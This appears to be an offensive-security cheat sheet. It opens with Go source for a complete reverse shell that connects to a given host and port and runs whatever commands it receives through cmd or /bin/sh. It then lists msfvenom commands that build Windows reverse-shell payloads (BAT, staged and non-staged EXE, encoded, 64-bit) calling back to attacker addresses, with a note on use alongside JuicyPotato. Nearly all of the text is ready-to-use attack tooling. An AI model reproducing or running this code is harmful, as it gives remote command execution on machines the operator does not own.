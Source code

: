 ```
 os := runtime.GOOS  
 switch os {  
 case "windows":  
  exe = "cmd"  
 case "linux":  
  exe = "/bin/sh"  
 }  
 args := \[\]string{}  
 if exe == "cmd" {  
  args = append(args, "/C")  
 } else {  
  args = append(args, "-c")  
 }  
 args = append(args, msg)  
 return exe, args  
}func main() {args := os.Args  
 if len(args) < 2 {  
  fmt.Println("Not enough arguments!")  
  fmt.Println("Usage: app -i 10.10.10.10 -p 8089")  
  return  
 }I_P := flag.String("i", "", "Host to connect to")  
 L_PORT := flag.String("p", "", "Port to listen on")  
 flag.Parse()conn, _ := net.Dial("tcp", fmt.Sprintf("%s:%s", \*I\_P, \*L\_PORT))for {  
  cwd, _ := os.Getwd()  
  fmt.Fprintf(conn, "\\n%s> ", cwd)  
  msg, _ := bufio.NewReader(conn).ReadString('\\n')  
  exe, args := get\_arch\_message_format(msg)  
  out, err := exec.Command(exe, args...).Output()  
  if err != nil {  
   fmt.Println(conn, "\\n\\n%s\\n", err)  
  }  
  fmt.Fprintf(conn, "%s", out)  
 }  
}
```
## MsfVenom
```
# List formats
msfvenom --list formats
# List payloads
msfvenom --payload --list-options | grep windows
```
### BAT
mostly used with **JuicyPotato** exploit.
```
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.12.15 lport=4444 > shell.bat
```
### EXE
Staged reverse TCP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
Non-Staged reverse TCP:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```
64bit payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
```
Embedded payload:
```
```

[DC01]: PS>